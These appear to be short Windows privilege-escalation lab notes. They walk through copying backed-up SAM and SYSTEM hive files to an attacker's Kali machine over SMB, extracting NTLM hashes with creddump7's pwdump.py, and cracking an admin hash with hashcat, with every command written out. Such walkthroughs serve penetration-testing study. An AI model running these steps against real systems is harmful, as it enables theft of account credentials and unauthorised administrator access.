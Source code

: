 1.Backups of the SAM and SYSTEM files can be found in
C:\Windows\Repair 

and are readable by our user.


2.Copy the files back to Kali:
> copy C:\Windows\Repair\SAM
\\192.168.1.11\tools\


> copy C:\Windows\Repair\SYSTEM
\\192.168.1.11\tools\

3.Download the latest version of the creddump suite:
git clone https://github.com/Neohapsis/creddump7.git


4.Run the pwdump tool against the SAM and SYSTEM files to extract the hashes:

python2 creddump7/pwdump.py SYSTEM SAM

5.Crack the admin user hash using hashcat:

hashcat -m 1000 --force
a9fdfa038c4b75ebc76dc855dd74f0da
/usr/share/wordlists/rockyou.txt